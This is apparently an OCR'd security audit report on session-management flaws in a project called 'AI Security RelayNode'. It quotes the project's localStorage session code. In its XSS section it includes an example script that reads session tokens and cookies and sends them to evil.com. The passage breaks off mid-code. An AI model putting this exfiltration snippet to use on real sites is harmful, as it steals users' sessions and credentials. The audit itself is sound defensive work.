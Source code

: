 # Security Vulnerability Analysis #7: Session Management & State Security Vulnerabilities

## Executive Summary

The AI Security RelayNode's session management and state handling contains **CRITICAL SECURITY FLAWS** that allow session hijacking, state manipulation, and complete authentication bypass. The system relies heavily on client-side state management with insufficient server-side validation, creating multiple attack vectors for persistent system compromise.

## Critical Vulnerabilities

### 1. **Client-Side Session Storage in localStorage** 🔴 CRITICAL
- **Location**: `src/hooks/useSIWS.ts`
- **Severity**: CRITICAL (CVSS 9.7)
- **Issue**: Sensitive session data stored in easily accessible localStorage
- **Evidence**:
```typescript
// CRITICAL: Session data in localStorage accessible to any script
const SESSION_KEY = 'siws-session';

const saveSession = (session: SIWSSession) => {
  try {
    localStorage.setItem(SESSION_KEY, JSON.stringify(session));
    // Plaintext session data including signatures and credentials
  } catch (error) {
    console.error('Failed to save session:', error);
  }
};

const loadSession = (): SIWSSession | null => {
  try {
    const stored = localStorage.getItem(SESSION_KEY);
    if (stored) {
      return JSON.parse(stored); // Direct deserialization of attacker-controlled data
    }
  } catch (error) {
    console.error('Failed to load session:', error);
  }
  return null;
};
```

### 2. **Session Hijacking via XSS** 🔴 CRITICAL
- **Location**: All components using session state
- **Severity**: CRITICAL (CVSS 9.5)
- **Issue**: Any XSS vulnerability compromises all user sessions
- **Evidence**:
```javascript
// Attacker script can steal all session data
const sessionData = localStorage.getItem('siws-session');
const authSession = localStorage.getItem('auth-session');

// Send to attacker server
fetch('https://evil.com/steal-session', {
  method: 'POST',
  body: JSON.stringify({
    session: sessionData,
    auth: authSession,
    cookies: document.cookie
```